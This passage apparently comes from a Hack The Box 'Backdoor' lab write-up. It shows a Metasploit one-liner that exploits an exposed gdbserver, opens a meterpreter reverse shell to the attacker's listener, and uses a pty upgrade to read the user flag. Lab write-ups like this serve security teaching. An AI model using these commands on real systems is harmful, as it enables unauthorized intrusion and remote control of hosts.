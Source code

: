 ## Meterpreter

A quick search for gdb exploits found [this](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/gdb/gdb_server_exec) article for a metasploit method. Let's try that:

```sh
┌──(root💀kali)-[~/htb/backdoor]
└─# msfconsole -nqx "use exploit/multi/gdb/gdb_server_exec; set payload linux/x64/meterpreter/reverse_tcp; set lhost 10.10.14.241; set rhosts 10.10.11.125; set rport 1337; set target 1; exploit"
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
lhost => 10.10.14.241
rhosts => 10.10.11.125
rport => 1337
target => 1
[*] Started reverse TCP handler on 10.10.14.241:4444 
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (3012548 bytes) to 10.10.11.125
[*] Meterpreter session 1 opened (10.10.14.241:4444 -> 10.10.11.125:33368 ) at 2021-12-09 23:08:17 +0000
meterpreter >
```

We have a session connected, now start a shell:

```text
meterpreter > shell
Process 2402 created.
Channel 1 created.
python3 -c "import pty;pty.spawn('/bin/bash')"
user@Backdoor:~$
```

## User Flag

With our shell stabilised let's grab the user flag:

```text
user@Backdoor:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)

user@Backdoor:~$ ls -l
-rw-r----- 1 root user 33 Dec  9 23:17 user.txt

user@Backdoor:~$ cat user.txt
<HIDDEN>
```

## Privilege Escalation
